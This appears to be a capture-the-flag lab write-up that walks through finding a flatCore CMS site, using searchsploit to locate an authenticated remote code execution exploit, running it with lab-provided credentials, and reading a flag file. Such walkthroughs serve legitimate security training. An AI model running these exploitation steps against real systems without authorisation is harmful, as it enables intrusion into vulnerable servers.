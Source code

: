 ### Flag 1: Web Application Exploitation

#### Step 1: Web Application Analysis

With port 80 open and the nmap scan showing this is a flatCore CMS, let's examine the web application. We'll navigate to the site and use the provided credentials to gain access to the admin panel.

Navigating to `http://target1.ine.local` reveals a website running **Flatcore CMS** with a login interface. The nmap scan already told us this was flatCore, and we have credentials provided in the lab environment.

#### Step 2: Exploit Research

Now that we've identified flatCore CMS, let's check if there are any known vulnerabilities we can exploit. We'll use searchsploit to query the local exploit database.

Using searchsploit to find known vulnerabilities:

```bash
searchsploit flatcore
```

**Results:**
```
Exploit Title                                                    | Path
----------------------------------------------------------------- | ---------------------------------
FlatCore CMS 2.0.7 - Remote Code Execution (RCE) (Authenticated)| php/webapps/50262.py
FlatCore CMS 2.1.1 - Stored Cross-Site Scripting (XSS)         | php/webapps/51068.txt
```

The **Remote Code Execution (Authenticated)** exploit is perfect for our scenario since we have valid credentials.

#### Step 3: Exploit Execution

Perfect! We found an authenticated RCE exploit for FlatCore CMS. Since we have valid credentials, this is exactly what we need. Let's copy the exploit to our directory and execute it.

Copy the exploit to our working directory:

```bash
searchsploit -m 50262
```

Execute the exploit with provided credentials:

```bash
python3 50262.py http://target1.ine.local/ admin password1
```

#### Step 4: Flag Retrieval

Great! The exploit worked and we now have command execution on the target. Let's navigate the file system to find our first flag, which should be in the root directory.

Once we have code execution, navigate to the root directory:

```bash
ls /
cat /flag1.txt
```
